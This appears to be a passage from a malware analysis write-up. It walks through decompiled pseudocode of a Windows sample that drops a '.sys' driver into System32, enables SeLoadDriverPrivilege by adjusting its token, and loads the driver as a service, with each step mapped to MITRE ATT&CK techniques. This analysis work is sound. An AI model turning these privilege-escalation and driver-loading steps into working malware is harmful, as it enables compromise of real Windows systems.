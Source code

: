 ```c
            FlushFileBuffers(v19);
            CloseHandle(v19);
          }
        }
        else
        {
          CloseHandle(v19);
          DeleteFileW(v16);
        }
      }
      sub_4023C0(v16, v34);
```
<br /><br />
If everything is good, create the same one but with .sys

```sh
      v20 = LZOpenFileW(v16, &ReOpenBuf, 2u);
      if ( v20 >= 0 )
      {
        PathAddExtensionW(pszDest, L".sys");
        v21 = (const void *)LZOpenFileW(v16, &v27, 0x1002u);
        lpBuffer = v21;
        if ( (int)v21 >= 0 )
        {
          v22 = LZCopy(v20, (INT)v21);
          LZClose(v20);
          LZClose((INT)lpBuffer);
```
<br /><br />
Setup the driver

```sh
              v23 = StrStrIW(v16, L"System32");
            v33 = sub_403930(v23, Destination);
```
<br /><br />
Explicitly enable the SeLoadDriverPrivilege privilege (This is one of the privileges that is disabled by default) - T1134 Access Token Manipulation

```sh
  v3 = GetProcessHeap();
  v4 = (struct _TOKEN_PRIVILEGES *)HeapAlloc(v3, 8u, 0x40u);
  if ( v4 )
  {
    v5 = GetCurrentProcess();
    if ( OpenProcessToken(v5, 0x28u, &TokenHandle) )
    {
      LookupPrivilegeValueW(0, L"SeLoadDriverPrivilege", (PLUID)v4->Privileges);
      v4->PrivilegeCount = 1;
      v4->Privileges[0].Attributes = 2;
      hSCManager = (SC_HANDLE)AdjustTokenPrivileges(TokenHandle, 0, v4, 0, 0, 0);
    }
    GetLastError();
    v6 = GetProcessHeap();
    HeapFree(v6, 0, v4);
    if ( hSCManager )
    {
      if ( lpBinaryPathName )
      {
```
<br /><br />
Use that privilege to load the .sys driver (the driver name is passed to this function) - T1543.003 Create or Modify System Process: Windows Service 
